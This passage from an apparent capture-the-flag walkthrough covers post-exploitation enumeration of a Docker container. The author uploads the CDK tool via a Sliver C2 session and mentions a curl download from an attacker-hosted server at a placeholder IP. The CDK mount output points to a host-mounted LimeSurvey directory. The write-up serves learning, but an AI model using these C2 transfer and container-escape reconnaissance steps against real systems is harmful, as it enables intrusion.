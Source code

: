 A great solution to visualize the permissions for mounts on a docker container is by utilizing [CDK](https://github.com/cdk-team/CDK), a toolset that was made to enumerate container capabilities. This will be helpful to run on the docker container, as it'll help us determine if there are any to exploit.

Note that I uploaded the `CDK` binary through sliver, if you want to do it manually you can use `curl` with parameters `http://(IP):(PORT)/cdk_linux_amd64 -O cdk` and also stand up a simple Python HTTP server on your host (just as an example).

```
$ ./cdk_linux_amd64 evaluate --full > cdk.txt

sliver> download cdk.txt
```

This file has been downloaded on our host, and you'll see an output of capabilities printed to your screen when you try to read it. Let's focus on the `Mounts` section.

```
[  Information Gathering - Mounts  ]
0:45 / / rw,relatime - overlay overlay rw,lowerdir=/var/lib/docker/overlay2/l/53HNCQFKU7UT4MRNHXETIEU7PS:/var/lib/docker/overlay2/l/EC46IKT2LF6IUMTKX5EYK6Y6NS:/var/lib/docker/overlay2/l/AVXFR7EGT4F5744IOUZXTAPAXP:/var/lib/doc

[...snip...]

259:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
259:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hostname /etc/hostname rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
259:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hosts /etc/hosts rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
259:1 /opt/limesurvey /var/www/html/survey rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
0:48 /bus /proc/bus ro,nosuid,nodev,noexec,relatime - proc proc rw
0:48 /fs /proc/fs ro,nosuid,nodev,noexec,relatime - proc proc rw
0:48 /irq /proc/irq ro,nosuid,nodev,noexec,relatime - proc proc rw
0:48 /sys /proc/sys ro,nosuid,nodev,noexec,relatime - proc proc rw
0:48 /sysrq-trigger /proc/sysrq-trigger ro,nosuid,nodev,noexec,relatime - proc proc rw
0:53 / /proc/acpi ro,relatime - tmpfs tmpfs ro,inode64
0:49 /null /proc/kcore rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755,inode64
0:49 /null /proc/keys rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755,inode64
0:49 /null /proc/timer_list rw,nosuid - tmpfs tmpfs rw,size=65536k,mode=755,inode64
0:54 / /proc/scsi ro,relatime - tmpfs tmpfs ro,inode64
0:55 / /sys/firmware ro,relatime - tmpfs tmpfs ro,inode64
```

While a lot of these don't seem very interesting, you'll notice that there's a mount pointing towards `/opt/limesurvey` on the host machine. We can confirm that this is a folder by checking through our SSH session on the host machine.

```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls
LICENSE      admin        docs         installer  node_modules      psalm-all.xml     setdebug.php  upload
README.md    application  gulpfile.js  locale     open-api-gen.php  psalm-strict.xml  themes        vendor
SECURITY.md  assets       index.php    modules    plugins           psalm.xml         tmp
```
